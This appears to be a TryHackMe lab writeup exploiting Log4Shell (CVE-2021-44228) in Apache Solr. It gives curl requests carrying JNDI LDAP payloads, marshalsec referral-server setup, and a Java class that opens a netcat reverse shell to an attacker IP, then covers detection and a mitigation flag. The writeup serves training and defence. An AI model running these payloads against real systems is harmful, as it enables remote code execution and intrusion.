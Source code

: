 ```yaml
---
layout: default
title : p3rzv41 - TryHackMe Solar Log4Shell Writeup
---
```


The Log4j vulnerability allows a remote attacker to execute arbitrary code remotely on a target system.

Let hit it;

![image](https://user-images.githubusercontent.com/69868171/149912748-0f0770e6-1bcc-4aec-addd-7b592396222c.png)

### Reconnaissance:-

```
nmap -v 10.10.250.31
nmap -T5 -v -n -p- 10.10.250.31
nmap -sV -p 8983 10.10.250.31
```

![image](https://user-images.githubusercontent.com/69868171/149913029-551c13de-3e78-4ed3-a989-29604d12a772.png)

### Discovery:-

When we navigate to `http://10.10.250.31:8983` we should be able to see clear indicators that log4j is in use within the application for logging activity, this can be seen below;- 

![image](https://user-images.githubusercontent.com/69868171/149913246-d90e78a0-c831-41a9-a87e-668ab449605d.png)

The -Dsolr.log.dir argument set to `/var/solr/logs`

![image](https://user-images.githubusercontent.com/69868171/149913403-826766c7-81f4-4c2d-bcbd-0061dc21d689.png)

Downloaded the log files and we can see a significant number of `INFO` entries showing repeated requests to one specific URL endpoint path repeating the entries: `/admin/cores` and the field indicating data entry point will be the `params={}` .

![image](https://user-images.githubusercontent.com/69868171/149913562-fe632719-734e-436a-b57b-b6fce6e97547.png)

### Proof Of Concept:-

Visiting `http://10.10.250.31:8983/solr/admin/cores` you also noticed that params seem to be included in the log file. At this point, you may already be beginning to see the attack vector.

![image](https://user-images.githubusercontent.com/69868171/149914077-3b05ff88-73f0-4d9e-b3a5-edc06103e4b0.png)

The log4j package adds extra logic to logs by "parsing" entries, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of CVE-2021-44228. Other syntax might be in fact executed just as it is entered into log files.

Some examples of this syntax are:-

```
${sys:os.name}
${sys:user.name}
${log4j:configParentLocation}
${ENV:PATH}
${ENV:HOSTNAME}
${java:version}
```

The format of the usual syntax that takes advantage of this looks like so:-

```
${jndi:ldap://ATTACKERCONTROLLEDHOST}
```

This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack. For the ldap:// know that the target will in fact make a connection to an external location.

Click here to read more:- [A Journey From JNDI LDAP Manipulation To RCE](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) .

Make a request including this primitive JNDI payload syntax as part of the HTTP parameters.

```
curl 'http://10.10.250.31:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.36.199:1337\}'
```

![image](https://user-images.githubusercontent.com/69868171/149915001-7ec66f1c-5897-4a58-ac3c-8b932529c038.png)


```
nc -nlvp 1337
```

Connection received, we get a strange-looking byte.

![image](https://user-images.githubusercontent.com/69868171/149915091-cdb94c88-e548-4762-a1f3-04e4edf322a4.png)


### Exploitation:- 

Installing Java-8 mirror link below feel free to dig in.

[Index of /jdk/](http://mirrors.rootpei.com/jdk/)

Select the `jdk-8u181-linux-x64.tar.gz` package and download. 

![image](https://user-images.githubusercontent.com/69868171/149915622-16ca60be-3cf4-495d-8575-269b2dd5c582.png)

After downloading and extracting, move the downloaded folder in to /usr/lib/jvm then apply the commands below;

```
sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1

sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java
sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac
sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws
```

![image](https://user-images.githubusercontent.com/69868171/149915881-9944babf-cb48-456e-97b5-0d3bf1be1abf.png)

![image](https://user-images.githubusercontent.com/69868171/149915932-8f9ab184-b52b-41fd-94aa-d0dacbd74bc2.png)


`java -version` changed successfully.

![image](https://user-images.githubusercontent.com/69868171/149916015-7d4ce7a0-f497-4c72-8d56-de52813a445d.png)


```
git clone https://github.com/mbechler/marshalsec
cd into the dir
=================
build marshal
sudo apt install maven
mvn clean package -DskipTests
=================
starting the ldap server in marshalsec
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer
```

![image](https://user-images.githubusercontent.com/69868171/149916118-24d80cd9-c722-475f-bf81-391fa8d051ee.png)

With the marshalsec utility built, we can start an LDAP referral server to direct connections to our secondary HTTP server.

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.8.36.199:8000/#Exploit"
```

![image](https://user-images.githubusercontent.com/69868171/149916239-a4e8f4e9-006f-4131-88b9-61343ea60f1b.png)


Creating an arbitrary code naming it `Exploit.java` .

```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.8.36.199 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![image](https://user-images.githubusercontent.com/69868171/149916526-2d27aa7a-6bae-4139-9da1-6688bcd9e0a2.png)

Compiling the java exploit code, successfully compiling this will create an `Exploit.class` in the present directory

```
javac Exploit.java -source 8 -target 8
```

![image](https://user-images.githubusercontent.com/69868171/149916651-0a17b510-82e9-4be1-8e25-0f17c8b5708e.png)


Then host the file with an HTTP server and also a listener on port 9999 to catch a reverse shell while the ldap referral server waits.

![image](https://user-images.githubusercontent.com/69868171/149916715-3274354a-4d29-43d7-93eb-a25765a675ae.png)

![image](https://user-images.githubusercontent.com/69868171/149916797-9506b597-d31a-4b16-b931-c32ce40d6614.png)


Now we need to trigger the exploit and fire off our JNDI syntax!.

```
curl 'http://10.10.147.16:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.36.199:1389/Exploit\}'
```

![image](https://user-images.githubusercontent.com/69868171/149916922-4dd8005c-ca94-4293-8598-3c752d0100fd.png)


Ldap.

![image](https://user-images.githubusercontent.com/69868171/149916995-9fa4a6d2-68f3-43c4-9e7e-72a25a92341d.png)


### Results:- 

We got a shell, with this access a threat actor can realistically do whatever they would like with the victim, privilege escalation, exfiltration, install persistence, perform lateral movement or any other post-exploitation.

![image](https://user-images.githubusercontent.com/69868171/149917090-a1dab8bf-4bbb-4d37-aa9e-dc3b65ebe113.png)


### Persistence

![image](https://user-images.githubusercontent.com/69868171/149917146-3f7a2be0-98a4-476f-bc18-9d3751770efe.png)


upgrading the shell to stable.

![image](https://user-images.githubusercontent.com/69868171/149917226-e0a520f4-b97a-4fa5-98d1-49233e62fc0b.png)


Checking user privileges, this user has sudo privileges and can also log into ssh with a new password.

![image](https://user-images.githubusercontent.com/69868171/149917333-36962d5c-ba59-4948-8c5b-68b27159f2a1.png)


SSH.

![image](https://user-images.githubusercontent.com/69868171/149917455-545edb0a-39c1-4fba-8717-004f30ca3f7d.png)

### Detection

We can also view the solr logs.

![image](https://user-images.githubusercontent.com/69868171/149917557-e6b9d4e2-9301-4ec6-9c53-17e7a8202d83.png)

Viewing the affected solr.log.

![image](https://user-images.githubusercontent.com/69868171/149917611-b4d9db2f-bbf9-4876-80d0-141e71477fd2.png)


Our JNDI attack.

![image](https://user-images.githubusercontent.com/69868171/149917673-9fd5201c-a71f-4f71-af8e-e91b8a58e88a.png)

### Mitigation

Sudo bash as root and locate /etc/default/solr.in.sh use nano to edit and include the following lines below at the bottom of the file and save.

```
SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"
```

![image](https://user-images.githubusercontent.com/69868171/149917878-fd95585e-2229-4673-85a2-d9222db6fa80.png)

Then restart the service.

```
sudo /etc/init.d/solr restart
```
![image](https://user-images.githubusercontent.com/69868171/149917985-03e89f38-edf4-4ed2-a409-21161ab175a8.png)


To validate that the patch has taken place, start another netcat listener as you had before, and spin up your temporary LDAP referral server and HTTP server.

![image](https://user-images.githubusercontent.com/69868171/149918049-30fc4cd5-14cd-4285-8645-f30625c80b82.png)
